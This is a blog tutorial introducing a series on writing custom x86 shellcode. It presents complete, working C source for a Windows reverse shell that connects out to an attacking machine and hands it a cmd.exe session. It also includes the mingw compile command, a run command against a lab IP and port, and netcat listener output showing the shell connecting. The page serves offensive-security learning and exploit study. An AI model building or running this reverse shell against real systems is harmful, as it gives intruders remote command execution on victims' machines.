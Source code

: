 [Home](https://plackyhacker.github.io) : [Part 2](https://plackyhacker.github.io/shellcodez/assembly)

# Writing Custom Shellcode, Introduction

## Assumptions

It is assumed that you know what a reverse shell is and you have a basic ability to read the flow of code. It is not necessary to understand the Win32 API calling conventions, or assembly language - this will be explained in later articles.

Writing shellcode isn't easy, but like any other subject it can be learned! Stick with it, it is extremely rewarding!

## Introduction

This series of articles will show how to write custom shellcode in x86 assembly language, why x86 (32-bit)?

The answer to this question is simple: when you are learning to write or analyse shellcode it is easier to study x86 than x64. The concepts are the same (albeit the instructions and calling conventions might be different), but the memory addresses, and the register sizes are 32-bits in length. Once you have learned x86 shellcode the transition to x64 should be easy.

## Anatomy of a Reverse Shell

Let's begin by looking at a basic reverse shell coded in C. I have heavily commented this code to make it easier to follow.

```c
include <winsock2.h>
#pragma comment(lib, "w2_32")

int main(int argc, char *argv[])
{
  // exit if args aren't provided (local ip/port)
  if(argc < 3) exit(0);

  // A pointer to the WSADATA data structure that is to receive details of the Windows Sockets implementation.
  WSADATA wsaData;
  	
  // If no error occurs, WSASocket returns a descriptor referencing the new socket.
  SOCKET Winsock;
  	
  // structure that specifies the address to which to connect.
  struct sockaddr_in laddr;

  // https://learn.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-wsastartup
  // The WSAStartup function initiates use of the Winsock DLL by a process, here we use v2.2
  WSAStartup(MAKEWORD(2,2), &wsaData);
  	
  // https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa
  // The WSASocket function creates a socket that is bound to a specific transport-service provider.
  Winsock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

  // https://learn.microsoft.com/en-us/windows/win32/winsock/sockaddr-2
  // set up a socket addr structure for the local host (attacking machine)
  laddr.sin_family = AF_INET;
  laddr.sin_addr.s_addr = inet_addr(argv[1]);
  laddr.sin_port = htons(atoi(argv[2]));

  // https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsaconnect
  // The WSAConnect function establishes a connection to another socket application (e.g., the netcat listener)
  WSAConnect(Winsock,(SOCKADDR*)&laddr, sizeof(laddr), NULL, NULL, NULL, NULL);
  
  if (WSAGetLastError() == 0) {
    // https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa
    // Specifies the window station, desktop, standard handles, and appearance of the main window for a process at creation time.
    STARTUPINFO ini_processo;
    
    // https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-process_information
    // Contains information about a newly created process and its primary thread.
    PROCESS_INFORMATION processo_info;
      
    // https://www.tutorialspoint.com/c_standard_library/c_function_memset.htm
    // this function basically sets the ini_processo structure to all 0s
    memset(&ini_processo, 0, sizeof(ini_processo));
      
    // simply specifies the size of the structure
    ini_processo.cb=sizeof(ini_processo);
    // If this flag is specified when calling one of the process creation functions, the handles must be inheritable
    ini_processo.dwFlags=STARTF_USESTDHANDLES;
    
    // here we redirect the stdin, stdout, and stderr handles to the socket handle
    ini_processo.hStdInput = ini_processo.hStdOutput = ini_processo.hStdError = (HANDLE)Winsock;

    // https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa
    // Creates a new process and its primary thread. The new process runs in the security context of the calling process.
    CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &ini_processo, &processo_info);

    // exit
    exit(0);
  } else {
    // exit
    exit(0);
  }
}
```

From a high level the code does four things by using the Win32 APIs:

- `WSAStartup` - Initialises the winsock DLL for use.
- `WSASocket` - Creates a socket object which we can use to connect to a `netcat` listener on an attacking machine.
- `WSAConnect` - Establishes a connection to our `netcat` listener.
- `CreateProcess` - Creates a new `cmd.exe` process and redirects the stdin, stdout, and stderr streams to the winsock object.

The C code can be compiled on a Linux machine using `mingw32`:

```bash
i686-w64-mingw32-g++ -std=c++11 shell.c -o shell.exe -s -lws2_32 -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

We can then run the portable executable on Windows:

```powershell
shell.exe 172.16.245.129 4444
```

This establishes a reverse shell back to the `netcat` listener:

```bash
nc -nvlp 4444 
listening on [any] 4444 ...
connect to [172.16.245.129] from (UNKNOWN) [172.16.245.128] 57270
Microsoft Windows [Version 10.0.19044.1766]
(c) Microsoft Corporation. All rights reserved.

C:\Users\John\Desktop>
```

This is ok, but it has a few problems. It is compiled as a PE (portable executable) file, this means it needs to be dropped to disk and executed, which is not desirable. It cannot be used in a remote exploit, such as a buffer overflow. For this we need shellcode that can be injected into an existing process and does not rely upon the structure of a PE file to execute.

When writing shellcode we need to carry out the same four tasks to establish a reverse shell, but we need to program it in assembly language, which presents us with a different set of problems.

In the next article I will write about the x86 high-level architecture that we need to understand to write shellcode.

[Home](https://plackyhacker.github.io) : [Part 2](https://plackyhacker.github.io/shellcodez/assembly)

